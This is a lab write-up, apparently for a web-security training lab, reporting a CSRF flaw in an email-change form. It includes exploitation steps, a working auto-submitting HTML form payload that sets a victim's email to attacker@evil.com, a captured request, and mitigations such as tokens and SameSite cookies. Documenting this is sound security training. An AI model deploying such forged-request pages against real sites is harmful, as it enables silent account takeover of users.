


# Title: CSRF Vulnerability with No Defenses

# Description

The email change functionality on this application is vulnerable to Cross-Site Request Forgery (CSRF). When a logged-in user submits the "Update email" form, the server processes the request based solely on the user's session cookie — there is no CSRF token, no origin check, and no other mechanism to verify that the request was intentionally made by the user.

This means an attacker can craft a malicious HTML page that automatically submits the email change form on behalf of any victim who visits it. Since the browser automatically attaches the victim's session cookie to same-origin requests, the server cannot distinguish a legitimate form submission from a forged one.

# Steps to Exploit

1. Log in to the application using the credentials `wiener:peter`.
2. Navigate to "My Account" and use the "Update email" feature — intercept this POST request in Burp Suite to confirm the endpoint and parameters.
3. Observe that the request contains only the `email` parameter and the session cookie — there is no CSRF token in the request.
4. Go to the **Exploit Server** provided by the lab.
5. In the **Body** section of the exploit server, paste the following HTML:
   ```html
   <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
       <input type="hidden" name="email" value="attacker@evil.com">
   </form>
   <script>
       document.forms[0].submit();
   </script>
   ```
   Replace `YOUR-LAB-ID` with the actual lab ID.
6. Click **Store**, then **View exploit** to verify it works — your own email should change, confirming the CSRF works.
7. Update the email value to something different (so it doesn't conflict with your test).
8. Click **Deliver exploit to victim**. The victim's browser loads the page, the form auto-submits with their session cookie, and their email is changed without their knowledge — lab solved.

# Proof of Concept

**Legitimate email change request (captured in Burp):**
```
POST /my-account/change-email HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=<victim_session_token>
Content-Type: application/x-www-form-urlencoded

email=wiener@web-security-academy.net
```

**CSRF exploit page (hosted on attacker's server):**
```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

When the victim visits the attacker's page, the JavaScript automatically submits the hidden form. The victim's browser attaches their session cookie to the POST request. Since the server has no CSRF token to validate, it accepts the request as legitimate and changes the victim's email to whatever the attacker specified.





# Impact

• An attacker can perform any state-changing action on behalf of authenticated users — changing email, password, making purchases, deleting accounts — just by tricking them into visiting a malicious page.
• The victim has no idea the action happened — no prompts, no warnings, no visible feedback.
• Changing the email address is typically a step toward full account takeover — attacker then triggers a password reset to the new email they control.
• Any sensitive function in the application (funds transfer, admin actions, profile changes) can be abused this way.

# Mitigation / Remediation

1. Implement **CSRF tokens** — include a unique, unpredictable token in every state-changing form and validate it server-side on every submission.
2. Use the **SameSite cookie attribute** (`SameSite=Strict` or `SameSite=Lax`) on session cookies to prevent them from being sent in cross-origin requests.
3. Verify the **Origin** or **Referer** header on the server to confirm requests are coming from the expected domain.
4. Require **re-authentication** (password confirmation) for sensitive actions like email or password changes.

# CVSS Score

CVSS v3.1 Score: 8.8 (High)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H

**CVSS Justification**

Attack Vector: Network (Exploit is delivered via a malicious web page hosted remotely)
Attack Complexity: Low (No special conditions — just a hidden auto-submitting form)
Privileges Required: None (The attacker does not need any account on the vulnerable site)
User Interaction: Required (The victim must visit the attacker's malicious page)
Scope: Unchanged (Impact is limited to the victim's account on the application)
Confidentiality Impact: High (Changing email enables password reset → full account takeover)
Integrity Impact: High (Account state is modified without the victim's consent)
Availability Impact: High (Victim can be locked out of their own account)
